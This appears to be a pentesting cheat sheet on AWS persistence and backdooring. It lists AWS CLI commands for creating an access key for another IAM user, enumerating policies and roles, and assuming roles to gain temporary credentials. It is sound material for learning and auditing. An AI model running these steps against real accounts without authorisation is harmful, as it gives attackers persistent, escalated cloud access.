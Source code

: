 # Persistence and Backdooring

### Suppose we have two users, the user A has permissions to create Access Keys to user B, this misconfig allows us to create an access key for user B and persist our access.

#### 1) Creating a new access key for another user

    aws iam create-access-key --username EXAMPLE_USERNAME

#### 2) Configuring AWS cli for the new user

    aws configure --profile EXAMPLE_PROFILE

### Remember, a user can have a maximum of 2 access keys.

#### 3) Testing the credential

    aws sts get-caller-identity --profile EXAMPLE_PROFILE

#### 4) Accessing more credentials

### It's possible to assume other roles with the sts:AssumeRole permission (Example: A user doesn't have access to an s3 instance, but it has this permission, we can easily assume other roles if we are in the trust relationship, increasing our access in the instance)

#### Listing managed policies attached to a user

    aws iam list-attached-user-policies --user-name EXAMPLE_USERNAME 

#### Retrieving information about a specific policy

    aws iam get-policy --policy-arn ARN 

#### Listing information about the version of the policy

    aws iam list-policy-versions --policy-arn ARN 

#### Retrieving information about a specific version

    aws iam get-policy-version --policy-arn POLICY_ARN --version-id ID

#### Listing IAM roles
  
    aws iam list-roles 

#### Listing trust relationship between role and user (Which roles we can assume)

    aws iam get-role --role-name ROLE_NAME 

#### Listing all managed policies attached to the specific IAM role

    aws iam list-attached-role-policies --role-name ROLE_NAME 

#### Retrieving information about the specified version of the policy

    aws iam get-policy-version --policy-arn POLICY_ARN --version-id ID 

#### Getting temporary credentials for the role

    aws sts assume-role --role-arn ROLE_ARN --role-session-name SESSION_NAME 

### Configuring AWS cli with newer credentials (On Linux)

    export AWS_ACCESS_KEY_ID

    export AWS_SECRET_KEY

    export AWS_SESSION_TOKEN

    aws sts get-caller-identity (Getting information about the temporary credential)
